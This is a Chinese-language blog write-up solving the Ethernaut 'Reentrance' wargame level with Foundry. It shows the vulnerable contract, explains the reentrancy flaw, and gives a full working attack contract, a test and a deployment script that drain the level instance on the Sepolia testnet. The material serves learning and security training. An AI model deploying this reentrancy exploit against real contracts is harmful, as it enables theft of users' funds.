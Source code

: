 # Foundry 通关 Ethernaut（9）— Reentrance

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

偷走合约的所有资产

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **donate：** 向合约转账，并输入地址，合约映射将该地址余额增加转账值

2. **balanceOf**: 返回对应地址的余额值

3. withdraw

   ：提现函数

   1. 用户在合约状态变量中记录的余额大于 提现值
   2. 使用 call 方法向用户转账提现值
   3. 转账成功则 更新提现用户余额，减去提现值

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 思路

从名字就可以得知这是很经典的重入攻击

我们看到当判断当前用户余额大于提现值后，合约就会向用户转账，而当转账后，如果转账地址是合约地址的话，就很容易出现 攻击者在 fallback 或 reveive 函数中构造恶意代码进行攻击，可以从call开始截断逻辑，不断调用提现函数

## 踩坑

1. 最开始攻击合约使用了继承（虽然现在想想确实没道理，但是可以记录一下这个坑），我在攻击合约中定义了fallback函数去写攻击逻辑，但继承后，子合约也继承了receive函数

   **withdraw** 函数转账时没有定义 calldata，那么此时，receive 和 fallback 同时在场的情况下，回去调用 receive，导致转账后根本没进 攻击逻辑，正常更新余额，攻击失败

2. 目标要求提取合约所有余额，一开始没注意，只是使用重入多次提取用户余额，除非合约余额恰好是用户余额的整数倍，否则提取不干净，因此添加一个判断逻辑获取所有余额

   ```solidity
    receive() external payable {
           uint256 total = contractAddress.balance;
           uint256 balance = reentrance.balanceOf(address(this));
           if (total > 0) {
               if (total > balance) {
                   reentrance.withdraw(balance);
               } else {
                   reentrance.withdraw(total);
               }
           }
    }
   ```

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma experimental ABIEncoderV2;
   pragma solidity 0.6.12;
   
   import {Test, console} from "forge-std/Test.sol";
   import {Reentrance,Attack} from "../src/Reentrance.sol";
   
   contract ReentranceTest is Test {
       Reentrance public reentrance;
       Attack public attack;
       address public user = vm.addr(123);
       address public attacker = vm.addr(456);
   
       function setUp() external {
           reentrance = new Reentrance();
           attack = new Attack(address(reentrance));
   
           // 用私钥创建的账户没有 eth，用默认测试账户先转钱
           payable(user).transfer(0.01 ether);
           payable(attacker).transfer(0.01 ether);
       }
   
       function test_attack() public {
           // 普通用户捐赠
           vm.prank(user);
           reentrance.donate{value: 0.001 ether}(user);
           // 普通用户捐赠后,目标合约余额和攻击合约余额
           console.log("before",address(reentrance).balance,address(attack).balance);
           // 攻击者攻击
           vm.prank(attacker);
           attack.attack{value: 0.01 ether}();
   
           // 查看目标合约余额，以及攻击合约余额
           console.log("after",address(reentrance).balance,address(attack).balance);
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/Reentrance.t.sol -vvvv
   ```

   ![image-20240910140851535](../pict/image-20240910140851535.png)

   我们可以看到，部署攻击合约后，目标合约被转走全部资产

### 链上交互

1. 攻击合约

   ```solidity
   contract Attack {
       Reentrance public reentrance;
       address public contractAddress;
   
       constructor(address payable _Reentrance) public {
           contractAddress = _Reentrance;
           reentrance = Reentrance(_Reentrance);
       }
   
       function attack() public payable {
           reentrance.donate{value: msg.value}(address(this));
           reentrance.withdraw(msg.value);
       }
   
       receive() external payable {
           // 获取目标合约余额
           uint256 total = contractAddress.balance;
           // 获取本合约存在目标合约的余额
           uint256 balance = reentrance.balanceOf(address(this));
           // 只要目标合约余额大于0，就一直提现本合约余额
           // 直到目标合约余额小于本合约余额，然后一次性提现所有余额
           if (total > 0) {
               if (total > balance) {
                   reentrance.withdraw(balance);
               } else {
                   reentrance.withdraw(total);
               }
           }
       }
   }
   ```

   部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity 0.6.12;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Reentrance,Attack} from "../src/Reentrance.sol";
   
   contract AttackScript is Script {
       Reentrance public reentrance;
       Attack public attack;
   
       function setUp() public {
           reentrance = Reentrance(payable("关卡实例合约地址"));
       }
   
       function run() public {
           vm.startBroadcast();
           attack = new Attack("关卡实例合约地址");
           // 大于关卡实例余额
           attack.attack{value: 0.002 ether}();
           vm.stopBroadcast();
       }
   }
   ```

2. 查询关卡实例合约余额，为 0.001 ether

   ```solidity
   cast balance [关卡实例合约地址] --rpc-url $Sepolia_PRC_URL
   
   cast from-wei xxxx
   ```

   ![image-20240910201537665](../pict/image-20240910201537665.png)

3. 终端部署

   ```bash
   forge script script/Reentrance.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   ![image-20240910202133378](../pict/image-20240910202133378.png)

4. 查看数据，关卡实例合约的余额为0

   ```solidity
   cast balance [关卡实例合约地址] --rpc-url $Sepolia_PRC_URL
   ```

   ![image-20240910202130668](../pict/image-20240910202130668.png)











